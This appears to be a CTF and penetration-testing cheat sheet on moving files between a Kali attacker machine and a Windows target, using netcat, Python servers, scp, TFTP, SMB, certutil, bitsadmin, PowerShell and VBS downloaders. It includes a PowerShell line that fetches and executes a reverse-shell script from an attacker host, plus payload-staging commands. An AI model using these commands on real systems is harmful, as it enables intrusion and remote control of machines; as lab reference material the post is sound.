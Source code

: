 ```yaml
---
title: "File_Transfer"
date: 2022-11-05 17.04
categories: [Miscellaneous, CTF]
tags: [file_transfering , file_server, netcat, powershell]
author: LXD
image: /assets/img/posts/misc/Data-Transfer.jpg
---
```



***Python***
- **`python3 -m http.server 80`**
***
***Netcat***
- (on the receiver side) **`nc -l -p 1234 > [file_name]`**
- (on the sender side) **`nc -w 3 10.2.111.159 1234 < [file_name]`**

**On Windows run:**

-	 `nc.exe -nv 10.0.0.1 4444 < file.exe`
***
**Powershell**

**Transferring from Kali to Windows**
*Go to terminal open a listener with :*
- `python3 -m http.server 80`
*Download it from Windows(As x64 bits) :*
- `C:\\Windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX (New-Object Net.Webclient).downloadStrings('http://10.10.10.10/Invoke-PowershellTcp.ps1')`
***
OR
***CertUtil***

*certutil.exe is available on more modern versions of Windows.*

`certutil.exe -urlcache -split -f http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe`

***

***FTP***

*We can use python to create a quick FTP server. Install the following package:*

`apt install python3-pyftpdlib`

**Transferring from Kali to Windows**

-	`python3 -m pyftpdlib -p 21`

**OR**

-	`python -m pyftpdlib -p 21`
***
***SSH***
*We can upload and downloand file through ssh via scp:*

**Downloading:**
- `scp sarah@10.10.54.199:'/Path/To/The/File' wordlist.txt`

**Uploading:**
- `scp /home/fl3sh/hash.txt john@192.168.10.5:/home/john/scripts`

*On Windows, create a text file with the commands you wish to use:*
```
echo open 192.168.1.78 > ftp.txt
echo binary >> ftp.txt
echo get test.txt >> ftp.txt
echo bye >> ftp.txt
```
*You can then execute the commands in the file with the following command:*

-	`ftp -A -s:ftp.txt`

***
***TFTP***

*TFTP is installed by default on Windows XP. It may not be installed on other versions of Windows. Sometimes it can be enabled on the command line:**

`pkgmgr /iu:"TFTP"`

On Kali install a TFTP server:

`apt install atftpd`

Create a dedicated tftp directory and change the ownership:
```
mkdir /tftp
chown nobody:nogroup /tftp
```

Run the TFTP server:

`atftpd --daemon --no-fork /tftp/`

**Transferring from Kali to Windows**

`tftp -i 10.0.0.1 GET file.exe`

**Transferring from Windows to Kali**

`tftp -i 10.0.0.1 PUT file.exe`
***
***SMB***

**Run the server on Kali:**

`python /usr/share/doc/python-impacket/examples/smbserver.py kali /path/to/directory`

*On Windows, check that the share can be seen:**

`net view \\10.0.0.1`
Shared resources at \\10.0.0.1

(null)

Share name  Type  Used as  Comment

-----------------------------------
KALI        Disk
The command completed successfully.

Regular filesystem commands should all work, and files can be copied to and from the share:

1 -	`dir \\10.0.0.1\kali`
2 - `copy \\10.0.0.1\kali\file.exe C:\Windows\Temp\file.exe`
3 - `copy C:\Windows\Temp\file.exe \\10.0.0.1\kali\file.exe`
***
***HTTP***

`python3 -m http.server 4444`

OR

`python -m SimpleHTTPServer 4444`
***

***BITSAdmin***
`
bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe`
***
**PowerShell Script**
`
powershell.exe -c "(new-object System.Net.WebClient).DownloadFile('http://10.0.0.1:4444/file.exe','C:\Windows\Temp\file.exe')"`
***
**Can also be dumped into a script:**
```
echo $webclient = New-Object System.Net.WebClient > wget.ps1
echo $url = "http://10.0.0.1:4444/file.exe" >> wget.ps1
echo $output = "C:\Windows\Temp\file.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$output) >> wget.ps1
```
**Run with:**
-	`powershell wget.ps1`
***
***VBS Script***
```
strFileURL = "http://10.0.0.1:4444/file.exe"
strHDLocation = "C:\Windows\Temp\file.exe"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1 'adTypeBinary
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
**As a series of echo statements:**
```
echo strFileURL = "http://10.0.0.1:4444/file.exe" >> downloadfile.vbs
echo strHDLocation = "C:\Windows\Temp\file.exe" >> downloadfile.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> downloadfile.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> downloadfile.vbs
echo objXMLHTTP.send() >> downloadfile.vbs
echo If objXMLHTTP.Status = 200 Then >> downloadfile.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> downloadfile.vbs
echo objADOStream.Open >> downloadfile.vbs
echo objADOStream.Type = 1 'adTypeBinary >> downloadfile.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> downloadfile.vbs
echo objADOStream.Position = 0 >> downloadfile.vbs
echo Set objFSO = CreateObject("Scripting.FileSystemObject") >> downloadfile.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> downloadfile.vbs
echo Set objFSO = Nothing >> downloadfile.vbs
echo objADOStream.SaveToFile strHDLocation >> downloadfile.vbs
echo objADOStream.Close >> downloadfile.vbs
echo Set objADOStream = Nothing >> downloadfile.vbs
echo End if >> downloadfile.vbs
echo Set objXMLHTTP = Nothing >> downloadfile.vbs
echo ""
```
**Run with the following command:**
-	`cscript downloadfile.vbs`

